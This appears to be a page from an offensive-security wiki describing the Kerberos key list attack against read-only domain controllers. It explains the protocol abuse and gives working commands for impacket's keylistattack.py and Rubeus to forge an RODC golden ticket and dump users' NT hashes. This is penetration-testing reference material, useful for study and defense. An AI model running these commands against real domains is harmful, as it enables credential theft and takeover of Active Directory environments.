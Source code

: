 ```yaml
---
authors: BlWasp, ShutdownRepo, sckdev
---
```


# Kerberos key list

## Theory

It is possible to retrieve the long term secret of a user (e.g. NT hash) by sending a `TGS-REQ` (service ticket request) to the `KRBTGT` service with a [`KERB-KEY-LIST-REQ`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/732211ae-4891-40d3-b2b6-85ebd6f5ffff) message type. This was introduced initially to support SSO with legacy protocols (e.g. NTLM) with Azure AD on on-premises resources.

An attacker can abuse this by forging a [RODC golden ticket](../../kerberos/forged-tickets/rodc-golden-tickets.md) for a target user and use it to send a `TGS-REQ` to the `KRBTGT` service with a `padata` filed value of [161](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/ae60c948-fda8-45c2-b1d1-a71b484dd1f7) (`KERB-KEY-LIST-REQ`). Knowing the `KRBTGT` key of the RODC is required here. The `TGS-REP` will contain the long term secret of the user in the `KERB-KEY-LIST-REP` key value.

## Practice

::: tabs

=== UNIX-like

From UNIX-like systems, the [keylistattack.py](https://github.com/fortra/impacket/blob/master/examples/keylistattack.py) tool (Python) can be used for this purpose.


```bash
#Attempt to dump all the users' hashes even the ones in the Denied list
#Low privileged credentials are needed in the command for the SAMR enumeration
keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" -full "$DOMAIN"/"$USER":"$PASSWORD"@"$RODC-server"

#Attempt to dump all the users' hashes but filter the ones in the Denied list
#Low privileged credentials are needed in the command for the SAMR enumeration
keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" "$DOMAIN"/"$USER":"$PASSWORD"@"$RODC-server"

#Attempt to dump a specific user's hash
keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" -t "$TARGETUSER" -kdc "$RODC_FQDN" LIST
```



=== Windows

From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for this purpose. 

```powershell
# 1. Forge a RODC Golden ticket
Rubeus.exe golden /rodcNumber:$KBRTGT_NUMBER /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:$KRBTGT_AES_KEY /user:USER /id:USER_RID /domain:domain.local /sid:DOMAIN_SID

# 2. Request a TGT via TGS-REQ request and retrieve the NT hash of the user in the response
Rubeus.exe asktgs /enctype:aes256 /keyList /ticket:ticket.kirbi /service:krbtgt/domain.local 
```


:::


## Resources

[https://www.secureauth.com/blog/the-kerberos-key-list-attack-the-return-of-the-read-only-domain-controllers/](https://www.secureauth.com/blog/the-kerberos-key-list-attack-the-return-of-the-read-only-domain-controllers/)
